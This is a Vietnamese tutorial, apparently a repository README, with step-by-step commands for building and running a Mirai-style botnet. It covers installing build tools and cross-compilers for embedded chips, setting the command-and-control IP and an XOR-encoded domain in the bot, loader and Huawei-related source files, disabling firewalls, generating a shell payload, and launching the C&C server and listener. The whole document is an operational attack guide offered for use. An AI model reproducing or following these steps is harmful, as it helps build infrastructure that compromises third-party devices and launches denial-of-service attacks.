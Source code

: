 TUT của zxcr9999

### Sao chép và dán tất cả vào shit vps của bạn
```
yum update -y
yum install epel-release -y
yum groupinstall "Development Tools" -y
yum install gmp-devel -y
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```

### cài đặt golang
```
cd /tmp
wget https://dl.google.com/go/go1.13.linux-amd64.tar.gz
sha256sum go1.13.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.13.linux-amd64.tar.gz
export PATH=$PATH:/usr/local/go/bin
export GOROOT=/usr/local/go
export GOPATH=$HOME/Projects/Proj1
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
export GOROOT=/usr/local/go; export GOPATH=$HOME/Projects/Proj1; export PATH=$GOPATH/bin:$GOROOT/bin:$PATH; go get github.com/go-sql-driver/mysql; go get github.com/mattn/go-shellwords
source ~/.bash_profile
go version
go env
cd ~/
```

### thay đổi ip
```
loader/src/main.c
loader/src/headers/config.h
dlr/main.c
bot/huawei.c
bot/util.c
```

### thêm tên miền

kéo tệp `enc.c` vào vps của bạn và gõ lệnh
```
gcc enc.c -o enc -std=c99
```
```
./enc string botnet.yourdomain.com
```
và thêm `TABLE_CNC_DOMAIN` vào trong tệp `table.c`

`botnet.yourdomain.com` là tên miền của bạn và nó được kết nối với IP để lưu trữ botnet

`add_entry(TABLE_CNC_DOMAIN, "\xa2\xaf\xa2\xef\xb3\xa0\xbb\xaf\xa4\xb5\xf3\xf1\xf3\xf0\xef\xac\xad", 17);`

số 17 sẽ tương ứng với byte xor
```
mkdir /etc/xcompile
cd /etc/xcompile
```
```
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-x86_64.tar.bz2
```
```
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
tar -jxf cross-compiler-x86_64.tar.bz2
```
```
rm -rf *.tar.*
```
```
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
mv cross-compiler-x86_64 x86_64
```

### Bắt đầu xây dựng
```
service firewalld stop
service iptables stop 
service httpd restart  
service mariadb stop
```
```
cd cnc/
sh build.sh
```
```
cd ~/
chmod 777 *
sh build.sh
```
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999

SAU ĐÓ LƯU
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
### Xây dựng file `.sh`
python payload.py

### Cách khởi động cnc và listen
```
cd cnc/
screen ./cnc 56999 1337 10
screen ./listen
```

Help: 56999 là cổng bot (nếu muốn thay thì vào file `bot/main.c` dòng 429), 1337 là cổng cnc, 10 là luồng (tối đa luồng là 750)
